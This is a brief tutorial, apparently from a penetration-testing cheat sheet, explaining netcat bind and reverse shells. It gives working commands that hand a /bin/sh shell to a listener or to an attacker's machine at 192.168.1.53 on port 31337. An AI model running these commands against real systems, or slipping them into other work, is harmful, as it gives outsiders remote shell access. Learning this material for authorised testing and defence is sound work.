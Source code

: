 ## Bind shell 

    Victim machine: nc -lp 31337 -e /bin/sh
    Attacker machine: nc 192.168.1.53 31337

A bind shell is established when a victim system "binds" its shell to a local network port. To achieve this using netcat, you should execute the command "nc -lp 31337 -e /bin/sh" on the victim machine. This sets up a listener on the machine on port 31337 and will execute the /bin/sh when another machine connects to its listener on port 31337. The attacker would enter the command "nc 192.168.1.53 31337" to connect to the victim's bind shell.


## Reverse shell
    Victim machine: nc 192.168.1.53 31337 –e /bin/sh
    Attacker machine: nc -lp 31337

A reverse shell is established when the target machine communicates with an attack machine listening on a specific port. To set up a listener on the attack machine, you would use the command "nc -lp 31337" on it. To connect to the attacking machine from the victim machine, you would enter the command "nc 192.168.1.53 31337 –e /bin/sh" on it.
